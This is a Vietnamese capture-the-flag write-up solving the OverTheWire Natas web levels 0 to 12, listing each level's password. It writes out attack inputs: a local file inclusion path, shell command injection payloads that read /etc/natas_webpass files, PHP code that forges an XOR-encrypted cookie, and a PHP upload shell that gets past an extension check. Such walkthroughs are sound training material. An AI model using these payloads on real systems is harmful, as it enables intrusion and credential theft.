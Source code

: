 ## Writeup Natas

- Natas 0
  ctrl + u ta thấy password natas1: gtVrDuiDfck831PqWsLEZy5gyDz1clto

- Natas 0 -> 1
  vô hiệu hóa javascript trên trình duyệt là có thể chuột phải, hoặc bấm ctrl + u :v 
  pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

- Natas 1 -> 2
  vẫn ctrl+u thấy có một đường dẫn đến file ảnh /files/pixel.png. Thế nên mình truy cập đến url /files thôi, xem thử có gì không
  thì thấy có thêm một file users.txt. Mở ra thì thấy natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

- Natas 2 -> 3
  Ctrl + u ra dòng này: No more information leaks!! Not even Google will find it this time...
  Vậy là file robots.txt rồi. Xem thử thì thấy url /s3cr3t/ vào thấy file users.txt ra natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

- Natas 3 -> 4
  Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
  Lúc đầu vào nó hiện ra thông báo này, nó nói là chúng ta truy cập từ "", bạn nên truy cập từ natas5.., nhấn vào link refresh page thì
  Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

  Xem burp thì thấy dòng Referer: http://natas4.natas.labs.overthewire.org/ vậy giờ thay đổi link như hướng dẫn là được
  kết quả: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

- Natas 4 -> 5
  Access disallowed. You are not logged in
  Xem thử cookie thấy có trường loggedin đang có giá trị 0, sửa lại thành 1 
  kết quả: Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

- Natas 5 -> 6
  ```php
  include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
  ```
  Khi ta nhập đúng secret thì ok. Thế secret ở đâu ? ta thấy dòng - include "includes/secret.inc"; nó lấy từ file này, vậy ta thử truy cập
  url này xem thế nào, ta có: $secret = "FOEIUWGHFEEUHOFUOIU"; giờ nhập vô là ok 
  kết quả: Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

- Natas 6 -> 7
  ta thấy trong web có hai button dẫn đến hai đường link, home và about có địng dạng index.php?page= , mà thêm câu gợi ý 
  hint: password for webuser natas8 is in /etc/natas_webpass/natas8 , thế là web này bị lỗi local file inclusion, ta có url
  index.php?page=/etc/natas_webpass/natas8 thế là ra pass DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

- Natas 7 -> 8
  source code
  ```php
  $encodedSecret = "3d3d516343746d4d6d6c315669563362";

  function encodeSecret($secret) {
      return bin2hex(strrev(base64_encode($secret)));
  }

  if(array_key_exists("submit", $_POST)) {
      if(encodeSecret($_POST['secret']) == $encodedSecret) {
      print "Access granted. The password for natas9 is <censored>";
      } else {
      print "Wrong secret";
      }
  }
  ```
  mình nhập vào input rồi nó xào nặn bằng hàm encodeSecret, sau khi sào nặn xong giống với $encodedSecret
  cho từ đầu thì có password. Vậy giờ ta viết đoạn decode hàm trên, ta có 

  ```php
  $secret = "3d3d516343746d4d6d6c315669563362";
  echo base64_decode(strrev(hex2bin($secret)));
  ```
  ra được kết quả: oubWYf2kBq , nhập vào input ta được Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

- Natas 8 -> 9 
  Ta có source
  ```php
  $key = "";

  if(array_key_exists("needle", $_REQUEST)) {
      $key = $_REQUEST["needle"];
  }

  if($key != "") {
      passthru("grep -i $key dictionary.txt");
  }
  ```
  chương trình hoạt động như sau: Mình nhập input thì nó gán vào biến $key và được vào thực thi câu lệnh
  grep -i $key dictionary.txt, điều đáng nói ở đây là không có kiểm tra đầu vào, người nhập muốn nhập gì nhập. Vậy ta sẽ nhập câu lệnh
  khác thử, ta dùng: ; ls /etc ; => ta thấy thư mục natas_webpass, lần mò vào trong ta được câu lệnh cuối cùng
  ; cat /etc/natas_webpass/natas10;  => nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

- Natas 9 -> 10 
  Dạng bài trước nhưng đã có kiểm tra input , nó trong cho dùng ; nữa thì mình đổi cái khác
  .* cat /etc/natas_webpass/natas11 #
  kết quả: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

- Natas 10 -> 11
  ```php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = '<censored>';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  function loadData($def) {
      global $_COOKIE;
      $mydata = $def;
      if(array_key_exists("data", $_COOKIE)) {
      $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
      if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
          if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
          $mydata['showpassword'] = $tempdata['showpassword'];
          $mydata['bgcolor'] = $tempdata['bgcolor'];
          }
      }
      }
      return $mydata;
  }

  function saveData($d) {
      setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
  }

  $data = loadData($defaultdata);

  if(array_key_exists("bgcolor",$_REQUEST)) {
      if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
          $data['bgcolor'] = $_REQUEST['bgcolor'];
      }
  }

  saveData($data);



  if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

app này hoạt động như thế này: có một mảng 2 đối tượng showpassword và bgcolor, nó mã hóa qua các bước đến tạo thành cái cookie.
Server sẽ kiểm tra showpassword yes or no, yes thì show password để đi tiếp. Vậy mình cần làm ra một cookie mà trường showpassword có
giá trị là yes.
mình hiện đang có một cookie có showpassword là no khi mình nhấn nút lúc ban đầu. Dựa vào source code ta đảo ngược quá trình mã hóa, 
nhưng ta thấy $key = '<censored>'; đang là một giá trị không biết. Tìm $key này trước.
ta dùng code này để giả lập.

```php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D');
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  echo xor_encrypt(json_encode($defaultdata));
```

  ta có $key = qw8J;
  Để đổi lại thông số showpassword bằng yes và giữ code y như ban đầu.
```php
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = 'qw8J';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  $new_cookie = base64_encode(xor_encrypt(json_encode($defaultdata)));
  echo $new_cookie;
  ```
  ra được cookie cần muốn: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
  giờ chỉ cần edit cookie cũ , f5 lại trang là ok EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

- Natas 11 -> 12
  web upload file, đọc source không thấy có check file tải lên. Ta tải lên một file php
  ```php
  system("cat /etc/natas_webpass/natas13");
  ```
  xin lỗi mình đọc code không kĩ, khi up lên mình thấy nó có random tên của file và đổi đuôi file thành jpg. Mình dùng burp để chặn ở giữa
  đổi lại tên random bằng chính tên của file, khi upload thành công upload/1f0u6vpwqa.php nó thông báo thành công và quan trọng vẫn giữ được 
  đuôi file php. Truy cập url hiện ra pass: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 


  
 